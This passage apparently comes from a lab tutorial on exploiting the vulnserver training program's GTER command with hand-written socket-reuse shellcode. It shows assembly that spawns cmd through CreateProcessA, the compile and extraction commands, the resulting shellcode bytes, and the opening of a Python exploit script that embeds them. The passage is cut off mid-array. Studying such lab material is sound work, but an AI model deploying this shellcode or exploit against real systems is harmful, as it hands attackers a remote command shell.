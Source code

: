 ``` x86asm


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Call CreateProcessA()
call ebx
```

We can compile this using `nasm`:

**nasm compilation.**

``` console
nasm -f elf32 -o shellcode.o shellcode.asm
```

And obtain the resulting shellcode with:

``` bash
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x6a\x8b\xab\x71
\xff\xd3\x96\xbb\x15\xfe\x55\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c
\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb\x07\x4a\xab\x71\xff
\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52
\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2
\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53
\x4b\x53\x53\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3
```

As you can see, the resulting shellcode is only 126 bytes long and will
nicely fit on our buffer without the need to use egghunters.

## Update our exploit

Now that we have our manually created shellcode, we can update our
[previous exploit](../vulnserver-gter/).

We will remove the egghunter and the previous shellcode and will include
our custom shellcode. Let’s see how it looks now:

**exploit-socketreuse.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
```